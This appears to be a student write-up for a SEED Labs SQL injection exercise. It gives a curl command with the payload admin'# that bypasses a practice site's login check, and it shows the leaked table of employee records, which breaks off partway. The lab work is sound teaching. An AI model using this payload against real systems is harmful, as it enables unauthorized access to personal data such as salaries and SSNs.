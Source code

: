 ![Webpage Accesses from root](./images/lab04-2-1.png)

##  Task 2.2: SQL Injection Attack from the Command Line
In this task you need to repeat Task 2.1, but you need to do it without using the login webpage. You can use command line tools, such as ```curl```, which can be used to send HTTP requests. Using ```curl``` is probably the quickest and easiest way to go, but there are also other great libraries that are fun to learn; e.g., ```requests``` in Python, httpparty in Ruby.
Using the base ```curl``` command ```curl 'www.seedlabsqlinjection.com/unsafe_home.php?username=alice&password=mypass123'``` we can alter the username and password section to comlete the same task as Task 2.1. The ```curl``` command to get this to work is``` curl 'www.seedlabsqlinjection.com/unsafe_home.php?username=admin%27%20%20%23&Password=' | tidy -i ```

The credential information that is printed out using ```| tidy -i``` is below and followed by the logoff script as proof this was not created with Task2.1 information. <div class='container'>
    <br>
    <h1 class='text-center'><b>User Details</b></h1>
    <hr>
    <br>
    <table class='table table-striped table-bordered'>
      <thead class='thead-dark'>
        <tr>
          <th scope='col'>Username</th>
          <th scope='col'>EId</th>
          <th scope='col'>Salary</th>
          <th scope='col'>Birthday</th>
          <th scope='col'>SSN</th>
          <th scope='col'>Nickname</th>
          <th scope='col'>Email</th>
          <th scope='col'>Address</th>
          <th scope='col'>Ph. Number</th>
        </tr>
      </thead>
      <tbody>
        <tr>
          <th scope='row'>Alice</th>
          <td>10000</td>
          <td>20000</td>
          <td>9/20</td>
          <td>10211002</td>
          <td></td>
          <td></td>
          <td></td>
          <td></td>
        </tr>
        <tr>